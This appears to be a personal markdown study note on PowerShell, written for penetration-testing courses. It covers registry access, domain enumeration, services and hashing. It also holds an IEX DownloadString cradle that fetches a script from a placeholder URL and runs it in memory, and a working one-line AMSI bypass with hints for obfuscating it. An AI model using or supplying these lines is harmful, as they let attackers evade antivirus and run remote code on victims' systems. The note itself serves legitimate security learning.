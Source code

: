 # Using PowerShell

author:: Nathan Acks  
date:: 2021-11-25

## Access the Registry Through PowerShell

You can actually access the registry from PowerShell using the `cd` command: `cd HKLM:\` will take you to the HKEY_LOCAL_MACHINE hive, for instance.

Major hives:

* HKEY_CLASSES_ROOT
* HKEY_CURRENT_USER
* HKEY_LOCAL_MACHINE
* HKEY_USERS
* HKEY_CURRENT_CONFIG

## Commands

### Accessing Windows Logs

Use the `Get-WinEvent` cmdlet.

### Domain Enumeration

```powershell
# Get domain users and associated groups
#
Get-DomainUsers | select name, memberof

# Get all domain group members, including nested domain groups
#
Get-DomainGroupMember -Identity $GROUP_NAME

# Show all users that previously logged on to a machine (defaults to
# local machine; requires admin privileges to be run against remote
# machines)
#
Get-NetLoggedon | select UserName

# Show all users who are logged in to a machine RIGHT NOW (does not
# require admin privileges for remote systems if run from Windows Server)
#
Get-NetSession
```

### Download a File

```powershell
# Download to disk
#
Invoke-WebRequest -Uri $URL_OF_FILE -OutFile $FILE_ON_DISK

# Download into a variable (useful for scripts!)
#
$SCRIPT_DATA = (New-Object System.Net.Webclient).DownloadString("$SCRIPT_URL")

# Download and invoke from memory
#
IEX (New-Object System.Net.Webclient).DownloadString("$SCRIPT_URL")
```

### Disable AMSI

Windows Defender uses a process called AMSI that triggers when a script is run in PowerShell (this includes invocations of `IEX` for in-memory scripts!).

One bypass for this:

```powershell
[REF].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Note that AMSI uses a regular expression to trap all PowerShell commands that contain AMSI-function related strings, however. This can be bypassed by breaking up the above script into separate variables, or by doing fancy string encoding-and-reassembly tricks.

Be aware that AMSI bypasses are *per session*, not global!

### Manipulating Services

* `Get-Service` — list all services, or drill down on a particular service.
* `Start-Service -Name $SERVICE`/`sc start $SERVICE` — start $SERVICE.
* `Stop-Service -Name $SERVICE`/`sc stop $SERVICE` — stop $SERVICE.

### Calculating File Hashes

```powershell
Get-FileHash -Algorithm $ALGORITHM $FILE_PATH
```

The algorithm can be excluded (in which case SHA-256 is used). *Lots* of different hashing algorithms are supported — run `help Get-FileHash` to see a list.

## Run PowerShell from cmd.exe

```bat
powershell -c "$COMMAND"
```

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [Get-WinEvent](get-winevent.md)
* [TryHackMe: MAL: Researching](tryhackme-mal-researching.md)
* [2022-08-24 - OffSec Live: PEN-200 & AWS Deep Dive](../log/2022-08-24-offsec-live-pen-200-and-aws-deep-dive.md)
* [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)
